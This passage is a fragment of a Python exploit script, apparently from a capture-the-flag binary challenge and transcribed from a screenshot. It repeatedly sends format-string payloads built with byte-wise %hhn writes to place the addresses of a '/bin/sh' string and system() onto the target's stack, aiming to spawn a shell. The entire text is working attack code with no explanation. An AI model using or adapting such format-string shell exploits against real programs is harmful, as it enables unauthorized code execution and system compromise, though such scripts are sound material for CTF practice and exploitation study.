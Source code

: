 ```python
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 8 + 0x118)
payload += p64(stack_buf + 8 + 0x119)
payload += p64(stack_buf + 8 + 0x11a)
payload += p64(stack_buf + 8 + 0x11b)
payload += p64(stack_buf + 8 + 0x11c)
payload += p64(stack_buf + 8 + 0x11d)
sl(payload)

ru(b"What's your name?\n");
current_n = 0
payload = generate_hhn_payload(0xc0, 2)
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)
ru(b'? Why is your name so strange? I want your real name!!\n')
current_n = 0
payload =  generate_hhn_payload(0xc0,  ((bin_sh_str) & 0xff ) )
payload += generate_hhn_payload(0xc8, ( (bin_sh_str >> 8) & 0xff ) )
payload += generate_hhn_payload(0xd0, ( (bin_sh_str >> 16) & 0xff ))
payload += generate_hhn_payload(0xd8, ( (bin_sh_str >> 24) & 0xff ))
payload += generate_hhn_payload(0xe0, ( (bin_sh_str >> 32) & 0xff ))
payload += generate_hhn_payload(0xe8, ( (bin_sh_str >> 40) & 0xff ))
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 16 + 0x118)
payload += p64(stack_buf + 16 + 0x119)
payload += p64(stack_buf + 16 + 0x11a)
payload += p64(stack_buf + 16 + 0x11b)
payload += p64(stack_buf + 16 + 0x11c)
payload += p64(stack_buf + 16 + 0x11d)
sl(payload)

ru(b"What's your name?\n");
current_n = 0
payload = generate_hhn_payload(0xc0, 2)
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)
ru(b'? Why is your name so strange? I want your real name!!\n')
current_n = 0
payload =  generate_hhn_payload(0xc0,  ((system_addr) & 0xff ) )
payload += generate_hhn_payload(0xc8, ( (system_addr >> 8) & 0xff ) )
payload += generate_hhn_payload(0xd0, ( (system_addr >> 16) & 0xff ))
payload += generate_hhn_payload(0xd8, ( (system_addr >> 24) & 0xff ))
payload += generate_hhn_payload(0xe0, ( (system_addr >> 32) & 0xff ))
payload += generate_hhn_payload(0xe8, ( (system_addr >> 40) & 0xff ))
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 24 + 0x118)
payload += p64(stack_buf + 24 + 0x119)
payload += p64(stack_buf + 24 + 0x11a)
payload += p64(stack_buf + 24 + 0x11b)
payload += p64(stack_buf + 24 + 0x11c)
payload += p64(stack_buf + 24 + 0x11d)
sl(payload)

ru(b"What's your name?\n");
current_n = 0
payload = generate_hhn_payload(0xc0, 2)
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)
ru(b'? Why is your name so strange? I want your real name!!\n')
current_n = 0
```